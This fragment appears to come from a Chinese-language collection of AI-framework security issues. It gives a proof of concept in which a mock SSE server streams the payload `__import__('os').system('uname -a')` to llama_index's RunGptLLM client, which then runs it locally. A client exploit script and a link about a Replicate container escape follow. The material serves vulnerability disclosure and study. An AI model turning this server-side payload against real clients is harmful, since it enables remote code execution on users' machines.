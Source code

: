 ```
def generate_sse_events():
    """Generate a sequence of SSE events for demonstration."""
    event_id = 1
    while True:
        data = "__import__('os').system('uname -a')"
        yield f"id: {event_id}\ndata: {data}\nevent: time_update\n\n"
        event_id += 1
        time.sleep(1)  # Delay to simulate real-time events
@app.route('/chat_stream', methods=['POST'])
def sse_request():
    return Response(generate_sse_events(), content_type='text/event-stream')
if __name__ == '__main__':
    app.run(debug=False, port=5000)
```
客户端使用`RunGptLLM`访问服务端时会在本地执行服务端指定的命令
```
rom llama_index.llms.rungpt import RunGptLLM
class Exploit:
    def __init__(self):
        # Initialize with the mock SSE server URL
        self.run_gpt_llm = RunGptLLM(endpoint="http://localhost:5000")

    def exploit(self):
        # This method simulates interacting with the stream_chat to process the malicious payload
        messages = []  # Assuming an empty message list for simplicity
        generator = self.run_gpt_llm.stream_chat(messages)
        
        try:
            for response in generator:
                print("Received a response: ", response)
        except Exception as e:
            print("Error processing the stream: ", e)
# Simulate executing the exploit
if __name__ == "__main__":
    exploit = Exploit()
    exploit.exploit()
```
#### 应用平台安全 (AI-as-a-Service)
- [Replicate平台容器逃逸漏洞](https://www.wiz.io/blog/wiz-research-discovers-critical-vulnerability-in-replicate)